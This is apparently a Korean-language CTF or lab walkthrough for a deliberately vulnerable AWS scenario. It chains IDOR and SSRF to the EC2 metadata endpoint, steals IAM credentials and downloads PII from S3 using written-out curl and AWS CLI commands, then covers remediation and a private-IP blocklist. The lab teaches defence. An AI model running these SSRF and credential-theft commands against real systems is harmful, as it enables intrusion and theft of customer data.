



# legacy-bridge - Walkthrough

## Step 1: 정찰

웹 애플리케이션에 접속하고 기능을 파악합니다.

```bash
cd terraform
terraform output scenario_entrypoint_url
```

URL을 브라우저에서 열어 **Beaver Finance - Customer Portal**을 확인합니다.



주요 관찰 사항:
- 서비스명: "Beaver Finance - Customer Portal"
- 버전: v5.0 production
- **Document Lookup** 섹션에 문서 번호 입력 필드와 선택적 Source URL 필드가 존재
- Source URL 필드는 SSRF 벡터 가능성을 시사

---

## Step 2: 정상 기능 테스트

유효한 문서 번호로 조회 기능이 정상 작동하는지 확인합니다.

> **참고:** 문서 ID 1~12가 사전에 등록되어 있습니다. 해당 범위 내 숫자를 입력하면 고객 데이터가 반환됩니다.

### 방법 1: 웹 브라우저 사용
1. Document number 필드에 `1` 입력
2. Source URL은 비워두기
3. **Look up** 버튼 클릭
4. 응답에 고객 데이터가 포함되는지 확인:
   - customer_name, application_id, file_name
   - 백엔드 URL이 노출되는 `internal_source` 필드

### 방법 2: CLI 사용
```bash
GW=http://<gateway-ip>
curl -s "$GW/api/v5/legacy/media-info?file_id=1"
```

문서 조회가 정상적으로 작동합니다.

---

## Step 3: 취약점 발견 — IDOR

문서 번호를 순차적으로 변경하여 IDOR 취약점을 확인합니다.

### 방법 1: 웹 브라우저 사용
1. Document number 필드에 1부터 12까지 순서대로 입력
2. 각각 **Look up** 클릭
3. 인증 없이 모든 고객 데이터에 접근 가능한지 확인



응답에서 내부 호스트명이 포함된 백엔드 오류가 노출됩니다:

```
{"backend_response": "{'detail': 'HTTPConnectionPool(host='internal-media-cdn.legacy', port=80): Max retries exceeded..."}
```

### 방법 2: CLI 사용
```bash
GW=http://<gateway-ip>
for i in {1..12}; do
  curl -s "$GW/api/v5/legacy/media-info?file_id=$i"
done
```

**IDOR 취약점 확인.** `file_id`만 바꾸면 인증 없이 임의의 고객 데이터에 접근할 수 있습니다. `internal_source` 필드에서 내부 백엔드 호스트명 `internal-media-cdn.legacy`도 노출됩니다.

---

## Step 4: 취약점 발견 — SSRF

선택적 Source URL 필드가 백엔드로 그대로 전달되는지 확인합니다.

### 방법 1: 웹 브라우저 사용
1. Document number 필드에 `1` 입력
2. Source URL 필드에 `http://example.com` 입력
3. **Look up** 클릭
4. 응답에 `example.com`에서 가져온 내용이 포함되는지 확인


### 방법 2: CLI 사용
```bash
GW=http://<gateway-ip>
curl -s "$GW/api/v5/legacy/media-info?file_id=1&source=http://example.com"
```

**SSRF 취약점 확인.** `source` 파라미터가 백엔드 서버로 전달되어 공격자가 지정한 임의의 URL에 요청이 가능합니다.

---

## Step 5: SSRF → IMDSv1로 IAM 역할 이름 추출

SSRF를 이용해 EC2 인스턴스 메타데이터 서비스(IMDS)에 접근하고 IAM 역할 이름을 열거합니다.

### 방법 1: 웹 브라우저 사용
1. Document number 필드에 `1` 입력
2. Source URL 필드에 아래 경로 입력:
```
   http://169.254.169.254/latest/meta-data/iam/security-credentials/
```
3. **Look up** 클릭
4. 응답의 `backend_response` 필드에서 역할 이름 추출:
```
   legacy-bridge-Shadow-API-Role-<suffix>
```

### 방법 2: CLI 사용
```bash
GW=http://<gateway-ip>
curl -s "$GW/api/v5/legacy/media-info?file_id=1&source=http://169.254.169.254/latest/meta-data/iam/security-credentials/"
```

다음 단계를 위해 역할 이름을 저장합니다.

---

## Step 6: IMDSv1에서 임시 자격증명 탈취

Step 5에서 확인한 역할로 IMDS 엔드포인트를 직접 조회해 임시 자격증명을 획득합니다.

### 방법 1: 웹 브라우저 사용
1. Document number 필드에 `1` 입력
2. Source URL 필드에 Step 5의 역할 이름을 사용해 URL 구성:
```
   http://169.254.169.254/latest/meta-data/iam/security-credentials/legacy-bridge-Shadow-API-Role-<suffix>
```
3. **Look up** 클릭



응답의 `backend_response` 필드에서 자격증명을 확인합니다:

```json
{
  "Code": "Success",
  "LastUpdated": "2026-04-30T22:47:00Z",
  "Type": "AWS-HMAC",
  "AccessKeyId": "ASIA...",
  "SecretAccessKey": "...",
  "Token": "...",
  "Expiration": "2026-05-01T06:27:25Z"
}
```

### 방법 2: CLI 사용
```bash
GW=http://<gateway-ip>
ROLE="legacy-bridge-Shadow-API-Role-<suffix>"
curl -s "$GW/api/v5/legacy/media-info?file_id=1&source=http://169.254.169.254/latest/meta-data/iam/security-credentials/$ROLE"
```

**SSRF → IMDSv1 자격증명 탈취 확인.**  
Shadow API EC2는 `http_tokens = "optional"` (IMDSv1 활성화) 상태이므로 토큰 사전 요청 없이 바로 접근 가능합니다.

---

## Step 7: AWS CLI 환경 설정

Step 6에서 탈취한 임시 자격증명을 환경변수로 설정합니다.

```bash
export AWS_ACCESS_KEY_ID="ASIA..."
export AWS_SECRET_ACCESS_KEY="..."
export AWS_SESSION_TOKEN="..."
export AWS_DEFAULT_REGION="us-east-1"
```

프로파일로 설정하는 경우:

```bash
aws configure --profile victim
aws configure set aws_session_token "..." --profile victim
```

---

## Step 8: 자격증명 유효성 확인

탈취한 자격증명이 실제로 작동하는지 확인합니다.

```bash
aws sts get-caller-identity
```

출력:
```json
{
    "UserId": "AROAY5XXXXXXXXXXX:i-0xxxxxxxxxxxxxxx",
    "Account": "123456789012",
    "Arn": "arn:aws:sts::123456789012:assumed-role/legacy-bridge-Shadow-API-Role-<suffix>/i-0xxxxxxxxxxxxxxx"
}
```

**Shadow API Role** (`legacy-bridge-Shadow-API-Role-<suffix>`)으로 인증되었습니다.

---

## Step 9: IAM 권한 열거

Shadow API Role에 부여된 권한을 확인합니다.

```bash
ROLE_NAME="legacy-bridge-Shadow-API-Role-<suffix>"

# 인라인 정책 목록 조회
aws iam list-role-policies --role-name $ROLE_NAME
```

출력:
```json
{
    "PolicyNames": [
        "legacy-bridge-shadow-api-s3-<suffix>"
    ]
}
```

인라인 정책이 존재합니다. 상세 내용을 확인합니다.

```bash
aws iam get-role-policy \
  --role-name $ROLE_NAME \
  --policy-name legacy-bridge-shadow-api-s3-<suffix>
```

출력:
```json
{
    "Statement": [
        {
            "Sid": "AllowDiscoverBuckets",
            "Effect": "Allow",
            "Action": ["s3:ListAllMyBuckets", "s3:GetBucketLocation"],
            "Resource": "*"
        },
        {
            "Sid": "AllowCheckOwnRolePermissions",
            "Effect": "Allow",
            "Action": ["iam:ListRolePolicies", "iam:GetRolePolicy"],
            "Resource": "arn:aws:iam::123456789012:role/legacy-bridge-Shadow-API-Role-<suffix>"
        },
        {
            "Sid": "AllowListPiiVault",
            "Effect": "Allow",
            "Action": ["s3:ListBucket"],
            "Resource": "arn:aws:s3:::legacy-bridge-pii-vault-<suffix>"
        },
        {
            "Sid": "AllowReadPiiVaultObjects",
            "Effect": "Allow",
            "Action": ["s3:GetObject"],
            "Resource": "arn:aws:s3:::legacy-bridge-pii-vault-<suffix>/*"
        }
    ]
}
```

**PII Vault S3 버킷에 대한 읽기 권한 확인.**

```bash
# 관리형 정책 확인
aws iam list-attached-role-policies --role-name $ROLE_NAME
```

출력:
```json
{ "AttachedPolicies": [] }
```

관리형 정책은 없으며 인라인 정책만 사용 중입니다.

---

## Step 10: S3 PII Vault 열거

접근 가능한 S3 버킷을 확인하고 내용을 열거합니다.

```bash
aws s3 ls
# → legacy-bridge-pii-vault-<suffix>

aws s3 ls s3://legacy-bridge-pii-vault-<suffix>/ --recursive
```

출력:
```
2026-05-01 00:00:00   applications/customer_credit_applications.csv
2026-05-01 00:00:00   applications/migration_log.txt
2026-05-01 00:00:00   applications/q1_2024_summary.txt
2026-05-01 00:00:00   confidential/breach_notice.txt
```

---

## Step 11: 민감한 데이터 탈취

고객 신용 신청서를 다운로드합니다.

```bash
aws s3 cp s3://legacy-bridge-pii-vault-<suffix>/applications/customer_credit_applications.csv .
cat customer_credit_applications.csv
```

출력:
```
customer_id,name,ssn,email,phone,credit_score
001,John Doe,123-45-6789,john@example.com,555-1234,750
002,Jane Smith,987-65-4321,jane@example.com,555-5678,720
...
```

수천 건의 고객 신용 신청서가 노출됩니다. 각 레코드에는 이름, 주민등록번호, 이메일, 전화번호, 신용점수 등 민감한 정보가 포함되어 있습니다.

---

## Step 12: 플래그 획득

침해 통지 파일을 다운로드합니다.

```bash
aws s3 cp s3://legacy-bridge-pii-vault-<suffix>/confidential/breach_notice.txt -
```

출력 결과에 플래그가 포함됩니다.

---

## 공격 체인 요약

```
1. Beaver Finance Customer Portal (v5.0)
   ↓ file_id 파라미터 IDOR — 순차 열거
2. 고객 데이터 노출
   ↓ internal_source 필드에서 백엔드 호스트명 노출 (internal-media-cdn.legacy)
3. source 파라미터를 통한 SSRF
   ↓ 임의 URL이 백엔드로 전달됨
4. IMDSv1 (169.254.169.254) — 토큰 불필요
   ↓ IAM 역할 열거: legacy-bridge-Shadow-API-Role-<suffix>
5. IMDSv1 자격증명 탈취
   ↓ AccessKeyId, SecretAccessKey, Token
6. AWS CLI 환경 설정
   ↓ 환경변수로 자격증명 설정
7. sts:GetCallerIdentity
   ↓ Assumed Role 신원 확인
8. iam:ListRolePolicies
   ↓ 인라인 정책 이름 확인
9. iam:GetRolePolicy
   ↓ legacy-bridge-pii-vault-<suffix>에 대한 S3 읽기 권한 확인
10. s3:ListBucket + s3:GetObject
    ↓ PII Vault 내용 열거 및 다운로드
11. confidential/breach_notice.txt에서 플래그 추출
```

---

## 핵심 기법

### IDOR 파라미터 조작
```bash
for i in {1..12}; do
  curl -s "$GW/api/v5/legacy/media-info?file_id=$i"
done
```

### SSRF를 통한 IMDSv1 접근
```bash
# IAM 역할 열거
curl -s "$GW/api/v5/legacy/media-info?file_id=1&source=http://169.254.169.254/latest/meta-data/iam/security-credentials/"

# 자격증명 추출
curl -s "$GW/api/v5/legacy/media-info?file_id=1&source=http://169.254.169.254/latest/meta-data/iam/security-credentials/$ROLE"
```

### IMDSv1 vs IMDSv2 비교

| | IMDSv1 | IMDSv2 |
|---|---|---|
| 토큰 필요 여부 | **불필요** | 필요 (PUT 요청) |
| SSRF 취약 여부 | **취약** | 취약하지 않음 |
| 설정 | `http_tokens = "optional"` | `http_tokens = "required"` |

Shadow API EC2는 `http_tokens = "optional"` 설정으로 SSRF를 통한 직접 접근이 가능합니다.

---

## 보안 교훈

### 1. 입력값 검증
- `file_id`는 양의 정수만 허용하도록 검증
- `source` 파라미터에서 RFC-1918 및 링크-로컬 대역으로의 요청 차단
- 서버 사이드 요청에 사용자 입력 URL을 그대로 신뢰하지 않기

### 2. 메타데이터 서비스 보안
- 모든 EC2 인스턴스에 IMDSv2 강제 적용 (`http_tokens = "required"`)
- IMDSv1을 완전히 비활성화 — 신규 배포에서 사용할 이유가 없음

### 3. 최소 권한 원칙
- 명시적으로 필요하지 않은 경우 `Resource: "*"`에 `s3:ListAllMyBuckets` 부여 금지
- IAM 권한은 와일드카드 패턴이 아닌 구체적인 리소스 ARN으로 제한

### 4. 심층 방어
- AWS WAF로 IDOR 및 SSRF 패턴 탐지
- CloudTrail로 모든 S3 및 IAM API 호출 로깅
- GuardDuty로 자격증명 오남용 및 비정상 API 활동 탐지

---

## 조치 방법

### IMDSv2 강제 적용
```hcl
metadata_options {
  http_tokens                 = "required"   # "optional"에서 변경
  http_endpoint               = "enabled"
  http_put_response_hop_limit = 1
}
```

### SSRF 입력값 검증
```python
from urllib.parse import urlparse
import ipaddress

BLOCKED_RANGES = [
    ipaddress.ip_network("169.254.0.0/16"),  # 링크-로컬 / IMDS
    ipaddress.ip_network("10.0.0.0/8"),
    ipaddress.ip_network("172.16.0.0/12"),
    ipaddress.ip_network("192.168.0.0/16"),
]

def is_safe_url(url: str) -> bool:
    host = urlparse(url).hostname
    try:
        addr = ipaddress.ip_address(host)
        return not any(addr in net for net in BLOCKED_RANGES)
    except ValueError:
        return False  # 호스트명인 경우 — 재확인 필요
```

### 문서 접근 권한 검증
```python
def get_document(file_id: int, current_user_id: int):
    doc = db.query(Document).filter_by(id=file_id).first()
    if doc.owner_id != current_user_id:
        raise PermissionError("접근 권한이 없습니다")
    return doc
```

### 추가 보안 조치
1. **AWS WAF 규칙**: `source` 파라미터의 사설 IP 대역 및 링크-로컬 주소를 포함한 SSRF 패턴 차단
2. **CloudTrail 모니터링**: PII Vault 버킷의 모든 S3 GetObject/ListBucket 호출 로깅
3. **GuardDuty**: IMDSv1 자격증명 탈취 및 비정상 S3 데이터 접근 패턴 탐지
4. **VPC 엔드포인트 정책**: S3 접근을 애플리케이션 전용 버킷으로만 제한, VPC 외부 접근 차단